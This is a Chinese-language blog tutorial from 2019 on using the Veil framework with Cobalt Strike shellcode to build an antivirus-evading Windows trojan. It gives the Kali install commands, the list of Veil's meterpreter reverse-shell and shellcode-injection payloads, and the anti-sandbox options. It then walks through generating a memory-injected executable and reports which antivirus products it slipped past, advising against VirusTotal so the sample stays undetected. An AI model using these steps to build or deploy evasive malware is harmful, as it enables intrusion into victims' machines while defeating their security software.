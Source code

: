 ```yaml
---
title: veil制作免杀payload
mathjax: true
copyright: true
comment: true
date: 2019-10-05 11:24:03
tags: 免杀，payload
categories: 内网渗透
---
```

简介:
Veil3.0可以将任意脚本或一段shellcode转换成Windows可执行文件，从而逃避了常见防病毒产品的检测，来自python3的Veil一直在更新。

<!-- more -->

---

## kali安装
```ruby
root@kali:~# apt -y install veil
root@kali:~# /usr/share/veil/config/setup.sh --force --silent
```
## 使用说明
- 在Kali上运行Veil，生成payload
- 如果使用的是Pyinstaller，payload会转成能够直接使用的可执行程序
- 如果使用的是Py2Exe，把payload.py和两个相关的文件放到windows系统上。执行批处理脚本将payload转换成可执行程序。

## 工具使用
### 启动veil
![avatar](https://raw.githubusercontent.com/alpha302/cloudimg/master/test2.png)

有两个免杀的工具，Evasion和Ordnance。
- Ordnance可生成在Veil-Evasion中使用的shellcode
- Evasion是用做文件免杀
我们选择Evasion
```ruby
Veil>: use 1                   #选择Evasion功能
Veil/Evasion>: list            #查看payload列表
```
![avatar](https://raw.githubusercontent.com/alpha302/cloudimg/master/veil2.png)
查看payload
```rubu
[*] Available Payloads:

	1)	autoit/shellcode_inject/flat.py

	2)	auxiliary/coldwar_wrapper.py
	3)	auxiliary/macro_converter.py
	4)	auxiliary/pyinstaller_wrapper.py

	5)	c/meterpreter/rev_http.py
	6)	c/meterpreter/rev_http_service.py
	7)	c/meterpreter/rev_tcp.py
	8)	c/meterpreter/rev_tcp_service.py

	9)	cs/meterpreter/rev_http.py
	10)	cs/meterpreter/rev_https.py
	11)	cs/meterpreter/rev_tcp.py
	12)	cs/shellcode_inject/base64.py
	13)	cs/shellcode_inject/virtual.py

	14)	go/meterpreter/rev_http.py
	15)	go/meterpreter/rev_https.py
	16)	go/meterpreter/rev_tcp.py
	17)	go/shellcode_inject/virtual.py

	18)	lua/shellcode_inject/flat.py

	19)	perl/shellcode_inject/flat.py

	20)	powershell/meterpreter/rev_http.py
	21)	powershell/meterpreter/rev_https.py
	22)	powershell/meterpreter/rev_tcp.py
	23)	powershell/shellcode_inject/psexec_virtual.py
	24)	powershell/shellcode_inject/virtual.py

	25)	python/meterpreter/bind_tcp.py
	26)	python/meterpreter/rev_http.py
	27)	python/meterpreter/rev_https.py
	28)	python/meterpreter/rev_tcp.py
	29)	python/shellcode_inject/aes_encrypt.py
	30)	python/shellcode_inject/arc_encrypt.py
	31)	python/shellcode_inject/base64_substitution.py
	32)	python/shellcode_inject/des_encrypt.py
	33)	python/shellcode_inject/flat.py
	34)	python/shellcode_inject/letter_substitution.py
	35)	python/shellcode_inject/pidinject.py
	36)	python/shellcode_inject/stallion.py

	37)	ruby/meterpreter/rev_http.py
	38)	ruby/meterpreter/rev_https.py
	39)	ruby/meterpreter/rev_tcp.py
	40)	ruby/shellcode_inject/base64.py
	41)	ruby/shellcode_inject/flat.py
```
推荐使用以go和ruby语言encode的编码方式。像python这类的与用户有较高的交互就容易被查杀。

### 选择go语言stager
```ruby
Veil/Evasion>: use 17
```
生成一个包含并执行CSpayload的go语言代码，和该代码编译成的可执行文件
```py
Required Options:
Name            	Value   	Description
----            	-----   	-----------
BADMACS         	FALSE   	#查看运行环境的MAC地址(反调试)
CLICKTRACK      	X       	#点击次数才会执行
COMPILE_TO_EXE  	Y       	#编译成exe文件
CURSORCHECK     	FALSE   	#设置硬盘容量(反沙盒)
DISKSIZE        	X       	# 设置只有磁盘大小满足时执行                           
HOSTNAME        	X       	#只有计算机名为hostname的值时才执行
INJECT_METHOD   	Virtual 	#Virtual or Heap
MINPROCS        	X       	#设置只有环境进程数满足时执行
PROCCHECK       	FALSE   	#只有运行环境的进程中没有虚拟机进程时才会执行payload（指定目标环境 反沙箱的方式）
PROCESSORS      	X       	#指定核心数的机器中才会执行payload（指定目标环境 反沙箱的方式）
RAMCHECK        	FALSE   	#只在运行环境的内存为3G以上时才会执行payload（指定目标环境 反沙箱的方式）
SLEEP           	X       	#休眠10秒 以检测是否运行过程中被加速（反沙箱)
USERNAME        	X       	#只有在当前用户名正确的机器中才执行payload
USERPROMPT      	FALSE   	#受害者计算机只有加入Comp域中时，才会执行payload（指定目标环境 反沙箱的方式）
UTCCHECK        	Y   	 #只在运行环境的系统使用UTC时间时，才会执行payload

```
### 生成payload
```ruby
[go/shellcode_inject/virtual>>]: generate 

```
![avatar](https://raw.githubusercontent.com/alpha302/cloudimg/master/2019-10-08%2007-45-55%20%E7%9A%84%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)

此时需要我们选择shellcode，我用cs生成
- Attacks -> Packages -> Payload Generator
- Windows/beacon_http/reverse/http

![avatar](https://raw.githubusercontent.com/alpha302/cloudimg/master/2019-10-08%2007-52-01%20%E7%9A%84%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)

复制cs的payload到veil中
![avatar](https://raw.githubusercontent.com/alpha302/cloudimg/master/2019-10-08%2008-07-41%20%E7%9A%84%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)

```
[>] Please enter the base name for output files (default is payload): test
生成木马
```
![avatar](https://raw.githubusercontent.com/alpha302/cloudimg/master/2019-10-08%2008-10-20%20%E7%9A%84%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)
test.exe即为注入内存的免杀木马。

### 测试
![avatar](https://raw.githubusercontent.com/alpha302/cloudimg/master/D1%5BX7%7E4%5B%258E%256L%7D%5DEQO%40SLX.png)
卑微，只能过360，腾讯哈勃没过得去。正常用没问题
大家尽量不要用virustotal去做测试，这个会总合杀毒软件并将样本提交给杀毒软件。也就是说只能用一次。